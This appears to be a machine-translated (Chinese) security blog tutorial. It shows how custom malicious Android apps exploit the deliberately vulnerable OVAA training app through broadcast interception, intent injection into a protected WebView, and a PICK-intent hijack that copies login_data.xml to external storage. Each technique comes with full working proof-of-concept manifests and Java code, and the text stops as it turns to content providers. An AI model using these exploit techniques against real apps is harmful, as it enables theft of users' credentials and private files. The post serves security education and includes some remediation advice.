# 恶意第三方应用程序利用 Android 漏洞(包括过度安全的 APK)

> 原文：<https://infosecwriteups.com/exploiting-android-vulnerabilities-with-malicious-third-party-apps-featuring-oversecured-apk-adea3241ce49?source=collection_archive---------0----------------------->



如今，移动应用已经成为一种趋势，因为一些快速增长的公司和初创公司已经迈出了进入数字世界的步伐，将他们的业务扩展到 APK 或 T2 的 IPA T3。他们一点也不知道，很可能有一个漏洞暴露在里面，可以被一个未知的对手操纵，他们可能会利用他们的优势。

在这篇文章中，我想向你展示这样一个第三方应用程序是如何影响一个具有易受攻击的安全设计的应用程序的，尤其是在 Android 中。我选择的 APK 的范围将是一个[过度保护的](https://github.com/oversecured/ovaa) APK，可以从他们的官方 **Github** 下载。

这个 APK 中存在 18 个漏洞，但我想向您展示其中的一些，使用我们自己手动构建的第三方应用程序，使用[**Android Studio**](https://developer.android.com/studio)**和 [**Genymotion**](https://www.genymotion.com/) 作为仿真器，可以轻松利用这些漏洞。**

> ****通过 IPC 机制进行不安全的“对话”****

****

**Android 中的 IPC 机制相当复杂，不同的 IPC 意味着不同的安全处理。最常见的叫做[意图](https://developer.android.com/guide/components/intents-filters?hl=en)。这种机制允许应用程序具有多种功能，例如在一个应用程序和另一个应用程序之间共享数据，将某些数据作为参数从一个[活动](https://developer.android.com/reference/android/app/Activity)传递到另一个活动，等等。这里的攻击场景可能是什么？我们将会看到以下三种可能发生的剥削:**

1.  ****意图重定向****
2.  ****意向注射****
3.  ****意图欺骗****

**为了静态地分析 APK，我将使用 [**移动安全框架(MobSF)**](https://github.com/MobSF/Mobile-Security-Framework-MobSF) 。也可以尝试使用 [**JADX-GUI**](https://github.com/skylot/jadx) 或者 **JD-GUI** 。**

**我们将从**意图重定向**开始。首先，在信息安全术语中，这实际上被称为**开放重定向**，但这种攻击的主要目的主要是检索某种信息，作为从一个合法应用程序传递给我们的恶意应用程序**的可能是机密的参数，或者获取对受保护组件的访问权限**。**

**一个常见的潜在攻击是当一个声明的组件在应用程序内部被**导出**时。您可能会从带有 XML 扩展名的 **Android Manifest** 文件中注意到它。然而，并不是每个组件都需要声明为" **android:exported** "，如果其中有一个 **intent-filter** 的话，我们也可以断定该活动是导出的。您会惊讶地发现，无论是否导出，清单中声明的 SDK 最低版本也会影响它的行为。**

****意图注入**发生在攻击者可能将一个**意图**本身作为一个**可打包的**类对象注入到另一个意图中作为额外的数据，因此其影响也可能潜在地获得对受保护组件的访问权。有几项研究将这种技术称为重定向，但我将在这里从不同的角度来看待它。**

**当启动我们的 **MobSF，**时，我们会看到它已经总结了组件信息，应用程序由 5 个活动、1 个服务、1 个接收者和 3 个提供者组成。**

****

**该应用程序也非常简单，它只提示您登录，您可以自由地展示内部实现的设计缺陷。**

**查看 Android 清单文件可以发现，该应用程序允许的最低 SDK 版本是**过时的**。如果允许的话，应用程序还能够**读写外部存储器**，这可能是危险的，因为如果有恶意，它可能会修改另一个应用程序的完整性。**

****

**有一个入口活动来检查我们是否已经登录，主活动是默认活动。**

****

**在我们快速浏览了主活动之后，我们注意到有一个**不安全的广播**使用了**隐含的意图。**这个意图是**隐含的**，因为它声明了一个特定的动作。注意，在 Android 8 (Oreo)中，**隐式意图**将不再被使用，因此我们需要通过指定其组件`Receiver`来声明一个**显式意图**。我们也可以把这个叫做**隐式广播**。**

********

**广播中传递的数据被认为是机密的，因为这是我们的登录数据。我们可以在 **loginUtils** 类上找到它，并找到 **getLoginData** 方法。**

****

**我们可以看到，数据存储在一个 [**共享首选项**](https://www.tutorialspoint.com/android/android_shared_preferences.htm) 中，并且是**未加密的。**这不是最佳实践，尤其是当我们谈论 Android 中的加密时，因为它没有任何加密方法，所以当攻击者收到这些登录数据时，它可以以纯文本格式显示。对于更多的 Android 加密实践，我会推荐从 [Ray Wenderlich 网站](https://www.raywenderlich.com/778533-encryption-tutorial-for-android-getting-started#toc-anchor-001)阅读。**

**另一个令人惊讶的事实是，开发人员在收到广播后忘记做一些事情。这种迹象表明，攻击者可以通过**拦截广播意图，**将登录数据重定向到我们的恶意应用程序，从而轻松窃取登录数据。**

********

**制作恶意应用程序的想法非常简单。我们可以注册我们自己的`Broadcast Receiver`，并将其优先级设置为 **999** ，以便首先将`payload`数据从广播意图重定向到我们的应用程序，因为它具有最高优先级。**

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="[http://schemas.android.com/apk/res/android](http://schemas.android.com/apk/res/android)"
    package="com.evil.oversecuredbroadcast"><application
        android:icon="[@mipmap/ic_launcher](http://twitter.com/mipmap/ic_launcher)"
        android:label="[@string/app_name](http://twitter.com/string/app_name)"
        android:roundIcon="[@mipmap/ic_launcher_round](http://twitter.com/mipmap/ic_launcher_round)"
        android:supportsRtl="true"
        android:theme="[@style/Theme](http://twitter.com/style/Theme).MyApplication">
        <receiver
            android:name=".EvilReceiver"
            android:enabled="true"
            android:exported="true">
            <intent-filter android:priority="999">
                <action android:name="oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA">
                </action>
            </intent-filter>
        </receiver><activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" /><category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application></manifest>
```

**但是由于额外的**有效载荷**包含一个 LoginData **可串行化对象:****

****

**我们将使用一个 [**反射**](https://www.areizen.fr/post/exploiting_android_application_trough_serialized_intent/) 方法来加载过度安全的 APK 包，在我们的主活动中加载它的索引和类。**

**我们主要活动类的 PoC。**

```
package com.evil.oversecuredbroadcast;import androidx.appcompat.app.AppCompatActivity;import android.content.pm.ApplicationInfo;
import android.content.pm.PackageManager;
import android.os.Bundle;import dalvik.system.DexFile;public class MainActivity extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Object object = null;
        try{
            PackageManager pm = getPackageManager();
            ApplicationInfo appinfo = pm.getApplicationInfo("oversecured.ovaa",0);
            DexFile df = new DexFile(appinfo.sourceDir);ClassLoader cl = getClassLoader();
            Class cli = df.loadClass("oversecured.ovaa.objects.LoginData",cl);
            object = cli.newInstance();} catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

**我们的**邪恶接收器**来了。我们从加载在**广播意图**中的过度安全的 APK 中声明动作，并通过`payload` extras 的 **getSerializable()** 接收**序列化的**数据。为了简单起见，我们将把它传递给一个记录器。**

```
package com.evil.oversecuredbroadcast;import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.util.Log;import java.io.Serializable;public class EvilReceiver extends BroadcastReceiver {[@Override](http://twitter.com/Override)
    public void onReceive(Context context, Intent intent) {
        // TODO: This method is called when the BroadcastReceiver is receiving
        // an Intent broadcast.
        if(intent != null) {
            if("oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA".equals(intent.getAction())){
                Log.d("evilreceiver","" + intent.getExtras().getSerializable("payload"));
            }
            else{
                Log.d("evilreceiver","Not yet intercepted");
            }
        }else{
            Log.d("evilreceiver","No intent");
        }
        throw new UnsupportedOperationException("Not yet implemented");
    }
}
```

**最后，我们产生了 OVAA 应用程序和恶意应用程序，登录到 OVAA，点击第二个按钮发送广播，以便我们的恶意应用程序接收它。虽然我们的应用程序正在崩溃(我不知道为什么会这样，但也许你知道，请随意评论！)，然而登录数据是使用包含电子邮件和密码的`adb logcat`在日志内显示的**。****

****

**所以在这种情况下，我们应该**永远不要使用隐含意图**来发送**广播。**我们需要使用一个**显式广播**和一个**签名许可级别**。**

**下一个漏洞更有趣，让我们再看一下 **Android 清单**，这一次，我们将重点关注登录活动。**

****

**由于发生了**意图过滤**，该活动默认为**导出**。如果我们看到源代码，**

********

**在我们被提示登录后，实际上会有一个检查器来检查是否有一个**意图**通过了一个额外的`redirect_intent`。这也是非常危险的，因为我们可以**向**注入恶意意图**来获得对受保护组件**的访问，例如受保护的活动。**

**我们还可以在 **processLogin** 中看到另一个导致**信息泄露**的漏洞，其中存在一个带有调试标记的日志记录器。一个寻找字符串`ovaa`的`adb logcat`命令可能会泄露我们以“处理”前缀开始的登录数据。**

**因为我们可以将意图传递给 LoginActivity 类，所以我们必须找出目标活动，以便获得完全的访问优势。我们可以看到有一个受保护的组件，一个**未导出的活动，** WebView 活动。**

****

**如果我们再看一下源代码，**

****

**[**WebView**](https://www.techtarget.com/searchsecurity/definition/Android-Webview) 将从额外的`url`意向数据中加载自定义 URL。这样，我们就能设计出攻击场景。我们可以**强制**登录活动接受一个包含**恶意网站**的`url`额外意图，并将其传递给来自登录活动意图的`redirect_intent`额外意图。我们可以从任何应用程序启动登录活动，因为它是**导出的。****

****

**让我们伪造我们的恶意应用程序。**

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="[http://schemas.android.com/apk/res/android](http://schemas.android.com/apk/res/android)"
    package="com.evil.evilintentaccessprotectedovaa"><application
        android:allowBackup="true"
        android:icon="[@mipmap/ic_launcher](http://twitter.com/mipmap/ic_launcher)"
        android:label="[@string/app_name](http://twitter.com/string/app_name)"
        android:roundIcon="[@mipmap/ic_launcher_round](http://twitter.com/mipmap/ic_launcher_round)"
        android:supportsRtl="true"
        android:theme="[@style/Theme](http://twitter.com/style/Theme).Evilintentaccessprotectedovaa">
        <activity android:name=".MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" /><category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application></manifest>
```

**App 的 **PoC** :**

```
package com.evil.evilintentaccessprotectedovaa;import androidx.appcompat.app.AppCompatActivity;import android.content.ComponentName;
import android.content.Context;
import android.content.Intent;
import android.content.pm.PackageManager;
import android.os.Bundle;public class MainActivity extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);//first intent will be prepared and targeted to protected un-exported
        //activity called WebActivity. But since we'll load 2 args of intent
        //that are the package name and the class, we'll create a context
        //and a class loader first
        Context icontext = null;
        try {
            icontext = createPackageContext("oversecured.ovaa",Context.CONTEXT_INCLUDE_CODE|Context.CONTEXT_IGNORE_SECURITY);
        } catch (PackageManager.NameNotFoundException e) {
            e.printStackTrace();
        }Class iclass = null;
        try {
            iclass = icontext.getClassLoader().loadClass("oversecured.ovaa.activities.WebViewActivity");
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }//Intended solver 1-> declare component and the class manually
        //Intent redirectintent = new Intent(icontext,iclass);//intended solver 2
        Intent redirectintent = new Intent();//this is solver 1, but it's not required for solver 2
        redirectintent.setClassName("oversecured.ovaa","oversecured.ovaa.activities.WebViewActivity");
        redirectintent.putExtra("url", "[https://petircysec.com/](https://petircysec.com/)");Intent loginintent = new Intent("oversecured.ovaa.action.LOGIN");
        loginintent.setClassName("oversecured.ovaa","oversecured.ovaa.activities.LoginActivity");
        loginintent.putExtra("redirect_intent",redirectintent);
        startActivity(loginintent);
    }
}
```

**打开恶意应用程序会将我们重定向到 extra `url`中加载的网站。过度安全的 APK 将渲染我们的恶意网站。**

****

**我们成功地执行了**意图注入**，导致**意图重定向**到另一个**受保护的活动。****

**但是我们不会停下来！还有更多的漏洞需要我们进一步寻找。一个**隐含的意图**有时可能被**用来窃取一份机密数据作为文件**。这也发生在过度安全的 APK。**

**我们再来看看主活动课。**

****

**有一个**隐式意图声明**，它的目的是挑选/打开一个图像类型的文件，然后它等待一个设置为 1001 的结果代码，以便触发并对文件做一些事情，这可以在 **onActivityResult()** 上看到。**

****

**如果我们看一下 **FileUtils** 类，特别是关于 **copyToCache** 方法，**

****

**它将打开一个位于 **/storage/emulated/0** 上的**外部缓存目录**(仅当您处于仿真环境中时)。如果是在真实环境中，我们可以参考这里的。文件名的输出将是以毫秒为单位的当前时间，它位于过安全 APK 的**缓存目录**中。**

**为了利用这个方法，我们将不得不**伪造一个意图**并将它们传递给 **onActivityResult()** 并从 **setResults()** 触发，以便它将我们的**任意文件**复制到**外部缓存目录**。虽然之前文件的类型被配置为图像类型，但是因为 **android:priority = "999 "，**的能力，它会覆盖它们，我们会在那里传递我们自己的意图。这是相当危险的，因为任何拥有 **READ_EXTERNAL_STORAGE** 的[权限](https://developer.android.com/guide/topics/manifest/uses-permission-element)的应用程序也能够读取它。**

****

**让我们精心制作我们的恶意应用程序。**

**应用程序的概念验证。**

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="[http://schemas.android.com/apk/res/android](http://schemas.android.com/apk/res/android)"
    package="com.evil.evlfiletheftpartone"><application
        android:allowBackup="true"
        android:icon="[@mipmap/ic_launcher](http://twitter.com/mipmap/ic_launcher)"
        android:label="[@string/app_name](http://twitter.com/string/app_name)"
        android:roundIcon="[@mipmap/ic_launcher_round](http://twitter.com/mipmap/ic_launcher_round)"
        android:supportsRtl="true"
        android:theme="[@style/Theme](http://twitter.com/style/Theme).Evlfiletheftpartone">
        <activity android:name=".thievesss" android:exported="true">
            <intent-filter android:priority="999">
                <action android:name="android.intent.action.PICK" />
                <category android:name="android.intent.category.DEFAULT" />
                <data android:mimeType="*/*" />
                <data android:mimeType="image/*" />
            </intent-filter>
        </activity>
        <activity android:name=".MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" /><category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application></manifest>
```

**主活动类，**

```
package com.evil.evlfiletheftpartone;import androidx.appcompat.app.AppCompatActivity;import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;public class MainActivity extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent cont = new Intent(getApplicationContext(),thievesss.class);
        startActivity(cont);
    }
}
```

**偷窃课，**

```
package com.evil.evlfiletheftpartone;import androidx.appcompat.app.AppCompatActivity;import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.os.StrictMode;public class thievesss extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_thievesss);
        StrictMode.setVmPolicy(StrictMode.VmPolicy.LAX);
        Intent stealing = new Intent();
        stealing.setData(Uri.parse("file:///data/data/oversecured.ovaa/shared_prefs/login_data.xml"));
        setResult(RESULT_OK,stealing);
        finish();
    }
}
```

**请注意，我们将传递解析应用程序的**共享首选项**中的 login_data.xml 的 Uri 数据，并使用 **StrictMode.setVmPolicy** 来防止出现 [**文件方案异常**](https://stackoverflow.com/questions/38200282/android-os-fileuriexposedexception-file-storage-emulated-0-test-txt-exposed) 。**

**我们可能会运行两个应用程序，启动第一个应用程序的按钮，我们将不得不选择恶意应用程序。之后，我们可以再次签出**外部缓存目录**文件，我们将看到我们的 XML 登录数据。**

****

**如果声明了 **startActivityForResult()** 并且使用的 intent 是**非隐式**，但是**显式**并且 **setResults()** 已经在指定的活动上定义了怎么办？我们有可能创建一个恶意应用程序，其技术是**意图拦截或重定向**，这将重定向`extra`数据。这篇[文章](https://payatu.com/blog/amit/Penetrate_the_protected_component_in_android_Part-2)已经解释的这么好了！**

**接下来，我们将尝试检查应用程序中也存在的另一个组件，称为 [**内容提供者**](https://www.tutorialspoint.com/android/android_content_providers.htm) 。该组件允许一个应用程序与另一个应用程序共享数据，另一个应用程序甚至可以通过使用 **ContentResolver** 类从另一个应用程序请求数据。**

**在查询内容时，它还有一个通用语法，如下所示:**

```
<prefix>://<authority-name>/<data_type>/<id>
```

**让我们再次回顾一下 **Android Manifest** 文件，这一次，我们将寻找 **provider** 标记。**

```
<**provider** android:name="oversecured.ovaa.providers.TheftOverwriteProvider" android:exported="true" android:authorities="oversecured.ovaa.theftoverwrite" /><**provider** android:name="oversecured.ovaa.providers.CredentialsProvider" android:exported="false" android:authorities="oversecured.ovaa.creds_provider" android:grantUriPermissions="true" /><**provider** android:name="androidx.core.content.FileProvider" android:exported="false" android:authorities="oversecured.ovaa.fileprovider" android:grantUriPermissions="true"><**meta-data** android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/provider_paths" /></**provider**>
```

**有三个内容提供者，其中一个可用于从任何应用程序调用，因为它是**导出的**，然而其中一个是**未导出的**，但它有一个**授予权限**。我们稍后将查看第二个，所以让我们检查第一个！**

